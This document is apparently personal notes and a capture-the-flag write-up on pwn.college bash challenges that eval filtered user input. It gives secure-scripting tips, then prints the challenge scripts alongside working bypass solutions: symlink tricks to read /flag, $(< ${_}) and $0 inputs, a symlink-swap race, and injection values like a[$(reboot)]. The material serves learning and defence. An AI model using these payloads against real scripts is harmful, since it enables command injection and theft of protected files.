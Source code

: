 # Environment Attacks
Always specify absolute paths when executing binaries or other scripts. If your script runs other scripts or binaries that do not use absolute paths internally, you should explicitly set the value of the PATH environment variable in your scripts to prevent problems.
(unset PATH not always works)
# Unquoted Variable Expansion
Always use quotes when accessing arguments
# Shell's Filename Expansion (also known as globbing)
idk warning?
# Enimgma of The Evironment
+ Check for user-controllable variables being passed to declare statements
+ Flag any script that allows arbitrary variable names in declare statements
+ Identify unquoted variables that are executed as commands (like $PROGRAM)
+ Flag variable assignments that could be influenced by user input and later executed
+ Look for cases where user input directly influences what command gets executed
# Tale of The Test
If the contents of $foo are not sanitised and are out of your control (if for instance they're coming from an external source), then all but [ "$foo" -gt 7 ] constitute an arbitrary command injection vulnerability as the contents of $foo are interpreted as an arithmetic expression (and for instance, the a[$(reboot)] arithmetic expression would run the reboot command when evaluated). The [ builtin requires the operands be decimal integers, so it's not affected. But it's critical that $foo be quoted, or you'd still get a command injection vulnerability (for instance with values such as -v a[$(reboot)] -o 8).

If the input to any arithmetic context (including ((, let, array indices), or [[ … ]] test expressions involving numeric comparisons can't be guaranteed then you must always validate your input before evaluating the expression.

# Rhythm of Restriction
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```
### sol
``` sh
ln -s /flag IPNUT
```
``` sh
/challenge/run
$(< ${_})
```
```
${_} is a special variable in Bash that usually contains the last argument of the previous command which in our case is INPUT.
$(< ${_}) is a command substitution that reads the contents of the file whose path is stored in ${_}. This is a shorthand in Bash for $(cat ${_}).
```
### vuln
directly executing clients ipnut

# Odyssey of the Octal
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9./]")
eval "$INPUT"
```
### sol
``` sh
ln -s /flag IPNUT
```
``` sh
$(< ${_})
```
# Riddle of the Radix
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read -r INPUT < <(head -n1 | tr -d "[A-Za-z./]")
        eval "$INPUT"
}

doit
```
### sol
creat symlink to /challenge/run
``` sh
ln -s /challenge/run smth
```
run the challenge with symlink using full path
``` sh
/home/hacker/smth
```
before passing input to challenge, in another terminal remove the symlink and create some program with same name as a symlink that reads /flag
``` sh
#!/usr/bin/bash

cat /flag
```
pass $0 to challenge as an input
# Whisper of the Withheld
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read INPUT < <(head -n1 | tr -d "[A-Za-z./]")
        eval "$INPUT"
}

doit
```
### sol
Solution to [Riddle of the Radix](#riddle-of-the-radix) works jus as well
# Path of the Unseen
### chal
``` sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
        echo -n ""
        read INPUT < <(head -n1 | tr -d "[A-Za-z0-9.~]")
        eval "$INPUT"
}

doit
```
### sol
Same solution as to [Riddle of the Radix](#riddle-of-the-radix) but pass ${!#} as an input to challenge

